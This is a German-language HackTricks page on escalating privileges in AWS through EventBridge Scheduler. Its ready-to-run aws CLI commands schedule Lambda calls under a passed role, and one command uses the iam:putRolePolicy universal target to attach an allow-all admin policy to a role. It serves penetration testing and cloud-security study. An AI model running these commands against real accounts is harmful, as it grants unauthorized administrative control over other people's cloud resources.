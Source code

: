 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler kann zur Privilegieneskalation verwendet werden, indem Anrufe an verschiedene AWS-Dienste geplant werden. Durch die Nutzung der Fähigkeit, Dienste planmäßig aufzurufen, können Benutzer mit ausreichenden Berechtigungen Privilegien eskalieren. Hier sind einige der wichtigsten Aktionen, die EventBridge Scheduler mit vorgefertigten Zielen auslösen kann:

* Lambda: lambda:InvokeFunction - Lambda-Funktionen nach einem Zeitplan aufrufen.
* CodeBuild: codebuild:StartBuild - AWS CodeBuild-Projekte starten.
* CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline-Ausführungen auslösen.
* ECS: ecs:RunTask - ECS-Aufgaben ausführen.
* EventBridge: events:PutEvents - Ereignisse in EventBridge einfügen.
* Inspector: inspector:StartAssessmentRun - Amazon Inspector-Bewertungen starten.
* Kinesis: kinesis:PutRecord - Datensätze in Kinesis-Streams einfügen.
* Firehose: firehose:PutRecord - Datensätze in Firehose-Lieferstreams einfügen.
* SageMaker: sagemaker:StartPipelineExecution - SageMaker-Pipeline-Ausführungen starten.
* SNS: sns:Publish - Nachrichten an SNS-Themen veröffentlichen.
* SQS: sqs:SendMessage - Nachrichten an SQS-Warteschlangen senden.
* Step Functions: states:StartExecution - Ausführungen von AWS Step Functions starten.

Dies sind nur einige der vorgefertigten Aktionen, die EventBridge Scheduler ausführen kann. Durch die Verwendung universeller Ziele können jedoch viele andere Aktionen über AWS-Dienste hinweg aufgerufen werden. Universelle Ziele ermöglichen umfangreichere API-Operationen über die vorgefertigte Liste hinaus.

Weitere Informationen zu EventBridge Scheduler finden Sie in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Benutzer mit `sts:AssumeRole`, `iam:PassRole` und `scheduler:CreateSchedule oder scheduler:UpdateSchedule` Berechtigungen können Privilegien eskalieren, indem sie den EventBridge Scheduler nutzen, um Dienste mit einer Rolle mit höheren Berechtigungen aufzurufen.

Mit diesen Berechtigungen kann ein Angreifer eine Rolle mit erhöhten Berechtigungen annehmen und diese Rolle an den EventBridge Scheduler übergeben, wenn er einen Zeitplan erstellt oder aktualisiert. Der Zeitplan kann so konfiguriert werden, dass er eine der zuvor aufgeführten Aktionen ausführt, wie z. B. das Aufrufen von Lambda-Funktionen, das Starten von ECS-Aufgaben, das Auslösen von CodePipeline-Ausführungen oder jede Operation der 270 AWS-Dienste, die vom EventBridge Scheduler unterstützt werden. Durch die Planung dieser Aktionen könnte ein Angreifer höhere Berechtigungen missbrauchen, um unbefugte Operationen über AWS-Dienste hinweg durchzuführen. \\

Zum Beispiel könnten sie den Zeitplan so konfigurieren, dass er eine Lambda-Funktion aufruft, die eine vorgefertigte Aktion ist:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Zusätzlich zu den vorgefertigten Dienstaktionen können Sie universelle Ziele im EventBridge Scheduler verwenden, um eine Vielzahl von API-Operationen für viele AWS-Dienste aufzurufen. Universelle Ziele bieten die Flexibilität, fast jede API aufzurufen. Ein Beispiel könnte die Verwendung universeller Ziele sein, um "AdminAccessPolicy" hinzuzufügen, indem eine Rolle verwendet wird, die die "putRolePolicy"-Berechtigung hat:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referenzen

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
